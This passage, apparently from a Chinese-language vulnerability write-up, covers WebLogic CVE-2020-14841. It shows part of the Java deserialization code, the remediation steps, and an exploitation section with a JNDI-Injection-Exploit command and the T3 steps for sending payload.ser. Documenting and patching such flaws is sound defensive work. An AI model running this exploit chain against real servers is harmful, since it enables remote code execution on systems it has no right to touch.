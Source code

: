 ```java
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void deserialize() {
        try {
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("payload.ser"));
            is.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

### 漏洞修复

1. 禁用T3、IIOP协议

2. 通过Oracle官网获取并安装最新补丁

### 漏洞利用

```
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc"
```

启动ldap服务器

生成序列化payload.ser

通过T3协议发送payload.ser

![avatar](../../../../images/java/weblogic/CVE-2020-14841/2.png)

### PSF案例

![avatar](../../../../images/java/weblogic/CVE-2020-14841/3.png)
